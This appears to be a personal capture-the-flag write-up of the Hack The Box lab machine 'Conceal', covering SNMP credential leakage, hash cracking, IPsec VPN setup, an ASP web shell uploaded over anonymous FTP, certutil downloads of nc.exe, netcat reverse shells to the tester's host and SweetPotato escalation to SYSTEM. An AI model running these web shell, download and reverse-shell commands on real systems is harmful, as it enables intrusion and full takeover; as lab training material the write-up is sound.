



---
tags:
  - snmp
  - ipsec
  - seimpersonate
group: Windows
---


- Machine : https://app.hackthebox.com/machines/Conceal
- Reference : https://0xdf.gitlab.io/2019/05/18/htb-conceal.html
- Solved : 2025.3.8. (Sat) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Port Scanning**:
        - Only **UDP ports 161 (SNMP) and 500 (IKE)** were open.
        - No TCP ports were initially accessible.
    - **SNMP Enumeration**:
        - Extracted an **IKE VPN Pre-Shared Key (PSK) hash** using `snmpwalk`.
        - Identified system information, hostname (`Conceal`), and user accounts.
    - **Hash Cracking**:
        - The **PSK hash was cracked using `hashcat`**, revealing the password: `Dudecake1!`.
    
2. **VPN Exploitation**
    - **IKE Enumeration**:
        - Used `ike-scan` to confirm **IKEv1 with PSK authentication**.
        - Identified weak encryption (`3DES`, `SHA1`, `MODP1024`).
    - **VPN Connection Setup**:
        - Configured **StrongSwan** for an IPsec VPN connection using the cracked PSK.
        - Successfully established a connection, revealing **previously hidden TCP ports**.
    - **Port Scanning Over VPN**:
        - Identified open services: **FTP (21), HTTP (80), SMB (445), RPC (135, 139), and high ports**.
    
3. **Shell as `destitute`**
    - **FTP Exploitation**:
        - Anonymous FTP login allowed file uploads but no file listings.
    - **Web Shell Upload**:
        - Uploaded a **Classic ASP web shell** to the HTTP server via FTP.
        - Used the shell to execute **`certutil.exe`** and download **`nc.exe`**.
        - **Established a reverse shell** using `nc.exe`, gaining access as `destitute`.
    
4. **Privilege Escalation to SYSTEM**
    - **Token Privilege Abuse (`SeImpersonate`)**:
        - Identified **SeImpersonatePrivilege**, which allows privilege escalation.
    - **Exploiting `SweetPotato`**:
        - Uploaded and executed **SweetPotato.exe** to spawn a SYSTEM shell.
        - **Executed a reverse shell as SYSTEM** using `nc.exe`.

### Key Techniques:

- **SNMP Information Disclosure**: Extracted sensitive system and VPN credentials.
- **IKE PSK Cracking**: Used `hashcat` to recover the VPN password.
- **VPN Pivoting**: Connected via IPsec to access internal services.
- **Web Shell Upload**: Abused FTP to place a backdoor on the web server.
- **Privilege Escalation via Token Impersonation**: Leveraged `SeImpersonatePrivilege` using `SweetPotato`.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/conceal]
└─$ nmap -Pn -p- --min-rate=1000 -T4 10.10.10.116
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-07 23:25 MST
Nmap scan report for 10.10.10.116
Host is up.
All 65535 scanned ports on 10.10.10.116 are in ignored states.
Not shown: 65535 filtered tcp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 131.98 seconds


┌──(kali㉿kali)-[~/htb/conceal]
└─$ nmap -Pn -sU -p- --min-rate=1000 -T4 10.10.10.116
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-07 23:30 MST
Nmap scan report for 10.10.10.116
Host is up (0.13s latency).
Not shown: 65533 open|filtered udp ports (no-response)
PORT    STATE SERVICE
161/udp open  snmp
500/udp open  isakmp

Nmap done: 1 IP address (1 host up) scanned in 130.14 seconds
```

Unlike the usual machines, it has only open UDP ports : SNMP(161), IKE(500)
All tcp ports seems to be down while the host itself is up.

### snmp(UDP 161)

I ran `snmpwalk`. 

```bash
┌──(kali㉿kali)-[~/htb/conceal]
└─$ snmpwalk -v 2c -c public 10.10.10.116
iso.3.6.1.2.1.1.1.0 = STRING: "Hardware: AMD64 Family 25 Model 1 Stepping 1 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 15063 Multiprocessor Free)"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.311.1.1.3.1.1
iso.3.6.1.2.1.1.3.0 = Timeticks: (140073) 0:23:20.73
iso.3.6.1.2.1.1.4.0 = STRING: "IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43"
iso.3.6.1.2.1.1.5.0 = STRING: "Conceal"
iso.3.6.1.2.1.1.6.0 = ""
iso.3.6.1.2.1.1.7.0 = INTEGER: 76
iso.3.6.1.2.1.2.1.0 = INTEGER: 15
<SNIP>


┌──(kali㉿kali)-[~/htb/conceal]
└─$ snmpwalk -v 2c -c public 10.10.10.116 | grep -i "password\|key"
iso.3.6.1.2.1.1.4.0 = STRING: "IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43"
```

It seems to be a MD5 hash or NTLM hash.

Let's try cracking this hash.

```bash
┌──(kali㉿kali)-[~/htb/conceal]
└─$ hashcat -m 1000 -a 0 vpn.md5 /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

9c8b1a372b1878851be2c097031b6e43:Dudecake1!

<SNIP>
```

It was actually NTLM hash, and the cracked password is `Dudecake1!`.

Also, can do the similar things with `snmp-check` command.

```bash
┌──(kali㉿kali)-[~/htb/conceal]
└─$ snmp-check 10.10.10.116                                        
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.10.10.116:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.10.10.116
  Hostname                      : Conceal
  Description                   : Hardware: AMD64 Family 25 Model 1 Stepping 1 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 15063 Multiprocessor Free)
  Contact                       : IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43
  Location                      : -
  Uptime snmp                   : 00:56:10.85
  Uptime system                 : 00:56:00.69
  System date                   : 2025-3-8 07:13:13.2
  Domain                        : WORKGROUP

 
[*] User accounts:

  Guest               
  Destitute           
  Administrator       
  DefaultAccount  


[*] TCP connections and listening ports:

  Local address         Local port            Remote address        Remote port           State               
  0.0.0.0               21                    0.0.0.0               0                     listen              
  0.0.0.0               80                    0.0.0.0               0                     listen              
  0.0.0.0               135                   0.0.0.0               0                     listen              
  0.0.0.0               445                   0.0.0.0               0                     listen              
  0.0.0.0               49664                 0.0.0.0               0                     listen              
  0.0.0.0               49665                 0.0.0.0               0                     listen              
  0.0.0.0               49666                 0.0.0.0               0                     listen              
  0.0.0.0               49667                 0.0.0.0               0                     listen              
  0.0.0.0               49668                 0.0.0.0               0                     listen              
  0.0.0.0               49669                 0.0.0.0               0                     listen              
  0.0.0.0               49670                 0.0.0.0               0                     listen              
  10.10.10.116          139                   0.0.0.0               0                     listen   

<SNIP>
```

### IKE(500)

UDP 500 is used for Internet Key Exchange (IKE), which is used to establish an IPSEC VPN. There is some recon I can do on the IKE using `ike-scan`:

```bash
┌──(kali㉿kali)-[~/htb/conceal]
└─$ ike-scan -M 10.10.10.116
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.10.116    Main Mode Handshake returned
        HDR=(CKY-R=212f27813018a220)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration(4)=0x00007080)
        VID=1e2b516905991c7d7c96fcbfb587e46100000009 (Windows-8)
        VID=4a131c81070358455c5728f20e95452f (RFC 3947 NAT-T)
        VID=90cb80913ebb696e086381b5ec427b1f (draft-ietf-ipsec-nat-t-ike-02\n)
        VID=4048b7d56ebce88525e7de7f00d6c2d3 (IKE Fragmentation)
        VID=fb1de3cdf341b7ea16b7e5be0855f120 (MS-Negotiation Discovery Capable)
        VID=e3a5966a76379fe707228231e5ce8652 (IKE CGA version 1)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.138 seconds (7.25 hosts/sec).  1 returned handshake; 0 returned notify


┌──(kali㉿kali)-[~/htb/conceal]
└─$ ike-scan -M --ikev2 10.10.10.116
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)

Ending ike-scan 1.9.6: 1 hosts scanned in 2.444 seconds (0.41 hosts/sec).  0 returned handshake; 0 returned notify
```

Things I take from that :
- IKE(Internet Key Exchange) is encrypted with `triple DES`, using `SHA1` hash, and `modp1024`.
- Auth is `PSK`(Pre Shared Key)
- The IKE version is v1 not v2.

To setup a IPSec connection, I can use a open source tool named `strongswan`.

```bash
┌──(kali㉿kali)-[~/htb/conceal]
└─$ sudo apt install strongswan
<SNIP>
```

Let's setup a config file for this.

First, I need to setup `/etc/ipsec.secrets` file.
For the PSK, I used the key found previously.

```bash
┌──(kali㉿kali)-[~/htb/conceal]
└─$ sudo cat /etc/ipsec.secrets
# This file holds shared secrets or RSA private keys for authentication.

# RSA private key for this host, authenticating it to any other host
# which knows the public part.
10.10.10.116 %any : PSK "Dudecake1!"
```

Then the next file is `ipsec.conf`.

```bash
┌──(kali㉿kali)-[~/htb/conceal]
└─$ sudo cat /etc/ipsec.conf   
# ipsec.conf - strongSwan IPsec configuration file

# basic configuration

config setup
    charondebug="all"
    uniqueids=yes
    strictcrlpolicy=no
        # strictcrlpolicy=yes
        # uniqueids = no

# Add connections here.

conn Conceal
    authby=secret
    auto=add
    ike=3des-sha1-modp1024!
    esp=3des-sha1!
    type=transport
    keyexchange=ikev1
    left=10.10.14.3
    right=10.10.10.116
    rightsubnet=10.10.10.116[tcp]
```

The configuration of `ipsec.conf` is very tricky, and difficult to setup properly.
Here is a [reference](docs.netgate.com/pfsense/en/latest/vpn/ipsec/ipsec-troubleshooting.html) from pfsense to handle those issues.

After setting up, I can open the Ipsec connection.

```bash
┌──(kali㉿kali)-[~/htb/conceal]
└─$ sudo ipsec restart       
Stopping strongSwan IPsec...
Starting strongSwan 5.9.13 IPsec [starter]...


┌──(kali㉿kali)-[~/htb/conceal]
└─$ sudo ipsec up Conceal
initiating Main Mode IKE_SA Conceal[1] to 10.10.10.116
generating ID_PROT request 0 [ SA V V V V V ]
sending packet: from 10.10.14.4[500] to 10.10.10.116[500] (176 bytes)
received packet: from 10.10.10.116[500] to 10.10.14.4[500] (208 bytes)
parsed ID_PROT response 0 [ SA V V V V V V ]
received MS NT5 ISAKMPOAKLEY vendor ID
received NAT-T (RFC 3947) vendor ID
received draft-ietf-ipsec-nat-t-ike-02\n vendor ID
received FRAGMENTATION vendor ID
received unknown vendor ID: fb:1d:e3:cd:f3:41:b7:ea:16:b7:e5:be:08:55:f1:20
received unknown vendor ID: e3:a5:96:6a:76:37:9f:e7:07:22:82:31:e5:ce:86:52
selected proposal: IKE:3DES_CBC/HMAC_SHA1_96/PRF_HMAC_SHA1/MODP_1024
generating ID_PROT request 0 [ KE No NAT-D NAT-D ]
sending packet: from 10.10.14.4[500] to 10.10.10.116[500] (244 bytes)
received packet: from 10.10.10.116[500] to 10.10.14.4[500] (260 bytes)
parsed ID_PROT response 0 [ KE No NAT-D NAT-D ]
generating ID_PROT request 0 [ ID HASH N(INITIAL_CONTACT) ]
sending packet: from 10.10.14.4[500] to 10.10.10.116[500] (100 bytes)
received packet: from 10.10.10.116[500] to 10.10.14.4[500] (68 bytes)
parsed ID_PROT response 0 [ ID HASH ]
IKE_SA Conceal[1] established between 10.10.14.4[10.10.14.4]...10.10.10.116[10.10.10.116]
scheduling reauthentication in 10111s
maximum IKE_SA lifetime 10651s
generating QUICK_MODE request 2616155781 [ HASH SA No ID ID ]
sending packet: from 10.10.14.4[500] to 10.10.10.116[500] (164 bytes)
received packet: from 10.10.10.116[500] to 10.10.14.4[500] (188 bytes)
parsed QUICK_MODE response 2616155781 [ HASH SA No ID ID ]
selected proposal: ESP:3DES_CBC/HMAC_SHA1_96/NO_EXT_SEQ
CHILD_SA Conceal{1} established with SPIs cae9d207_i 9c13f4f6_o and TS 10.10.14.4/32 === 10.10.10.116/32[tcp]
connection 'Conceal' established successfully
```

For the check, I scanned 445 tcp port which was observed to be open, and it was open.

```bash
┌──(kali㉿kali)-[~/htb/conceal]
└─$ nmap -p 445 -sT 10.10.10.116    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 01:23 MST
Nmap scan report for 10.10.10.116
Host is up (0.13s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 0.33 seconds
```

### Port scanning again

```bash
┌──(kali㉿kali)-[~/htb/conceal]
└─$ nmap -sT -p- --min-rate 10000 -oA nmap/alltcp_vpn 10.10.10.116
Nmap scan report for 10.10.10.116
Host is up (0.018s latency).
Not shown: 65338 closed ports, 185 filtered ports
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.97 seconds


┌──(kali㉿kali)-[~/htb/conceal]
└─$ nmap -sT -p 21,80,135,139,445 -sC -sV 10.10.10.116
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 01:49 MST
Nmap scan report for 10.10.10.116
Host is up (0.13s latency).

PORT    STATE SERVICE       VERSION
21/tcp  open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-03-08T08:50:19
|_  start_date: 2025-03-08T06:17:12
|_clock-skew: 58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.71 seconds
```

Several TCP ports are turned out to be open.

### ftp(21)

```bash
┌──(kali㉿kali)-[~/htb/conceal]
└─$ ftp anonymous@10.10.10.116
Connected to 10.10.10.116.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.

ftp> ls
229 Entering Extended Passive Mode (|||49674|)
125 Data connection already open; Transfer starting.
226 Transfer complete.

ftp> ls -al
229 Entering Extended Passive Mode (|||49675|)
125 Data connection already open; Transfer starting.
226 Transfer complete.

ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||49676|)
125 Data connection already open; Transfer starting.
100% |************************************************|    38      281.13 KiB/s    --:-- ETA
226 Transfer complete.
38 bytes sent in 00:00 (0.29 KiB/s)

ftp> exit
221 Goodbye.
```

With anonymous login, I cannot find any file in it.
I uploaded test file.

### http(80)



It's a default IIS page.
Let's run `gobuster`.

```bash
┌──(kali㉿kali)-[~/htb/conceal]
└─$ gobuster dir -u http://10.10.10.116 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.116
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/upload               (Status: 301) [Size: 150] [--> http://10.10.10.116/upload/]
```

There's a page found : `/upload`.



It's a directory listing page, but has no file yet except the file I uploaded using `ftp` protocol.


# Shell as `destitute`

### File upload via `ftp`

Since I can upload any file on the web root directory, let's upload `shell.asp` file.

```asp
┌──(kali㉿kali)-[~/htb/conceal]
└─$ cat shell.asp    

<SNIP>

' can set this to 0 for never time out but don't want to kill the server if a script
' goes into a loop for any reason
Server.ScriptTimeout = 180

ip=request.ServerVariables("REMOTE_ADDR")
if ip<>"10.10.14.4" then
 response.Status="404 Page Not Found!!"
 response.Write(response.Status)
 response.End
end if

if Request.Form("submit") <> "" then
   Dim wshell, intReturn, strPResult
   cmd = Request.Form("cmd")
   Response.Write ("Running command: " & cmd & "<br />")
   set wshell = CreateObject("WScript.Shell")
   Set objCmd = wShell.Exec(cmd)
   strPResult = objCmd.StdOut.Readall()

   response.write "<br><pre>" & replace(replace(strPResult,"<","&lt;"),vbCrLf,"<br>") & "</pre>"

   set wshell = nothing
end if

<SNIP
```

Upload it via `ftp`.

```bash
ftp> put shell.asp
local: shell.asp remote: shell.asp
229 Entering Extended Passive Mode (|||49680|)
125 Data connection already open; Transfer starting.
100% |************************************************|  3379       16.52 MiB/s    --:-- ETA
226 Transfer complete.
3379 bytes sent in 00:00 (24.16 KiB/s)
```

Then, I can access to the uploaded file as follows;



Then, I uploaded `nc.exe` with the following command.

```bash
certutil.exe -urlcache -split -f http://10.10.14.4:8000/nc.exe C:\Users\Public\Documents\nc.exe
```

Then, I can open a reverse shell connection using the uploaded `nc.exe`.
(Need to setup listener ahead)

```vbnet
c:\Users\Public\Documents\nc.exe 10.10.14.4 9000 -e "cmd.exe"
```

Then, soon the listener captures and spawns a reverse shell.

```bash
┌──(kali㉿kali)-[~/htb/conceal]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.116] 49684
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\SysWOW64\inetsrv>whoami
whoami
conceal\destitute
```


# Shell as `SYSTEM`

### Enumeration

As `destitute` user, I could find `SeImpersonate` privilege using `winPEAS` and other commands.

```yaml
����������͹ Current Token privileges
� Check if you can escalate privilege using some enabled token https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#token-manipulation         
    SeAssignPrimaryTokenPrivilege: DISABLED
    SeIncreaseQuotaPrivilege: DISABLED
    SeShutdownPrivilege: DISABLED
    SeAuditPrivilege: DISABLED
    SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeUndockPrivilege: DISABLED
    SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeIncreaseWorkingSetPrivilege: DISABLED
    SeTimeZonePrivilege: DISABLED
```

```bash
C:\Users\Public\Documents>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

Using `SweetPotato.exe` I can exploit this privilege.
Let's upload it first.

```bash
C:\Users\Public\Documents>certutil.exe -urlcache -split -f http://10.10.14.4:8000/SweetPotato.exe
certutil.exe -urlcache -split -f http://10.10.14.4:8000/SweetPotato.exe
****  Online  ****
  000000  ...
  0bf000
CertUtil: -URLCache command completed successfully.
```

For the test, I ran `whoami` command, and it worked!

```bash
C:\Users\Public\Documents>.\SweetPotato.exe -a "whoami"
.\SweetPotato.exe -a "whoami"
Modifying SweetPotato by Uknow to support webshell
Github: https://github.com/uknowsec/SweetPotato 
SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
[+] Attempting NP impersonation using method PrintSpoofer to launch c:\Windows\System32\cmd.exe
[+] Triggering notification on evil PIPE \\Conceal/pipe/77ed420c-305f-4dff-8b25-ced459fb3148
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] CreatePipe success
[+] Command : "c:\Windows\System32\cmd.exe" /c whoami 
[+] process with pid: 2904 created.

=====================================

nt authority\system

[+] Process created, enjoy!
```

Then I opened a reverse shell using `nc.exe` and `SweetPotato.exe`.
(Need to setup a listener ahead)

```bash
C:\Users\Public\Documents>.\SweetPotato.exe -a "C:\Users\Public\Documents\nc.exe 10.10.14.4 9001 -e powershell.exe"
.\SweetPotato.exe -a "C:\Users\Public\Documents\nc.exe 10.10.14.4 9001 -e powershell.exe"
Modifying SweetPotato by Uknow to support webshell
Github: https://github.com/uknowsec/SweetPotato 
SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
[+] Attempting NP impersonation using method PrintSpoofer to launch c:\Windows\System32\cmd.exe
[+] Triggering notification on evil PIPE \\Conceal/pipe/82a8415e-f74c-41eb-bbc8-3619b335f071
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] CreatePipe success
[+] Command : "c:\Windows\System32\cmd.exe" /c C:\Users\Public\Documents\nc.exe 10.10.14.4 9001 -e powershell.exe 
[+] process with pid: 4548 created.
=====================================
```

Then, soon the listener spawns a shell.

```bash
┌──(kali㉿kali)-[~/htb/conceal]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.116] 49702
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
```

I got a shell as `SYSTEM`.
